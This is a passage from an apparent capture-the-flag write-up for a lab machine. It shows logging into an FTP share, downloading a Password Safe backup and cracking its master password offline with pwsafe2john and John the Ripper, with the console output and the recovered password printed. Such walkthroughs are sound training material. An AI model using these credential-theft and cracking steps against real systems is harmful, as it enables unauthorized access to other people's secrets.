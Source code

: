 Looks like we don't have any additional permissions on the SMB shares, so let's try the FTP share we found earlier.

```console
$ ftp 10.10.11.42 
Connected to 10.10.11.42.
220 Microsoft FTP Service
Name (10.10.11.42:bashee): benjamin
331 Password required
Password: 
230 User logged in.
Remote system type is Windows_NT.
```

### Cracking PSafe Database Credentials
Bingo! We are logged in on the FTP share and find a `psafe3` backup file.

```console
ftp> dir
229 Entering Extended Passive Mode (|||57646|)
125 Data connection already open; Transfer starting.
10-05-24  08:13AM                  952 Backup.psafe3
226 Transfer complete.
ftp> get Backup.psafe3
local: Backup.psafe3 remote: Backup.psafe3
229 Entering Extended Passive Mode (|||57650|)
125 Data connection already open; Transfer starting.
100% |*****************************************************************************************************|   952       60.39 KiB/s    00:00 ETA
226 Transfer complete.
WARNING! 3 bare linefeeds received in ASCII mode.
File may not have transferred correctly.
952 bytes received in 00:00 (60.08 KiB/s)
```

The backup file protected by a password, but we can decrypt it using `JohnTheRipper`.

```console
$ pwsafe2john.py Backup.psafe3 > pwsafe.hash
$ john pwsafe.hash --wordlist=$ROCKYOU

Loaded 1 password hash (pwsafe, Password Safe [SHA256 256/256 AVX2 8x])
tekieromucho     (Backu)
```

With the password of the database, we can now use `pwsafe3` and see what is stored inside.

